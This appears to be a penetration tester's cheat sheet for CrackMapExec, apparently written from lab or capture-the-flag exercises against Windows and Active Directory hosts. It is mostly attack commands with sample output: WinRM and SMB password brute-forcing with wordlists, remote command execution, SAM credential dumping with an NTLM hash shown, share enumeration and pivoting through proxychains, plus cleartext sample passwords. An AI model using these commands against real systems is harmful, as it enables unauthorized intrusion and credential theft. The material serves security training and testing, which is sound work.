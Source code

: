 # crackmapexec
- <https://github.com/byt3bl33d3r/CrackMapExec>
- <https://ptestmethod.readthedocs.io/en/latest/cme.html>

This package is a swiss army knife for pentesting Windows/Active Directory environments.


We can utilize a utility called `crackmapexec` to perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target system.

CrackMapExec version 5.4.0 may throw the error The NETBIOS connection with the remote host is timed out for DCSRV1, or doesn't provide any output at all. Version 5.4.1 contains a fix to address this issue.



From enumerating logged on users and spidering SMB shares to executing psexec style attacks, auto-injecting Mimikatz/Shellcode/DLL's into memory using Powershell, dumping the NTDS.dit and more.



```
crackmapexec [IP]
crackmapexec [IP] --shares -u '' -p ''
crackmapexec [IP] --shares -u 'foobar' -p '' # may fall back to anonymous log in


crackmapexec winrm [IP] -u [USERS FILE] -p [PASSWORD FILE]
crackmapexec winrm [IP] -u administrator -p [PASSWORD FILE]

crackmapexec winrm [IP] -u administrator -p tinkerbell -x "whoami"
crackmapexec winrm [IP] -u administrator -p tinkerbell -x "systeminfo"



# Confirm MachineAccountQuota
crackmapexec ldap 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M MAQ

```



`crackmapexec smb [TARGET] -u maya -p "m4y4ngs4ri" --sam`
...
MB         10.10.11.14     445    MAILING          localadmin:1001:aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae:::
...






Determine the level of access we have without performing additional enumeration.

If the user with the identified credentials has administrative privileges crackmapexec adds `Pwn3d!` to the output.

Another great CrackMapExec feature: it identifies the domain name and adds it to the usernames. It can tell whether is a domain-joined machine and if we have identified a valid set of domain credentials


```
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success

crackmapexec smb 192.168.50.242 -u usernames.txt -p passwords.txt --continue-on-success
# Output:
...
SMB         192.168.50.242  445    MAILSRV1         [+] beyond.com\john:dqsTwTpZPn#nL
...
```




list the SMB shares and their permissions
```
crackmapexec smb 192.168.50.242 -u john -p "dqsTwTpZPn#nL" --shares

proxychains -q crackmapexec smb 172.16.6.240-241 172.16.6.254 -u john -d beyond.com -p "dqsTwTpZPn#nL" --shares
```

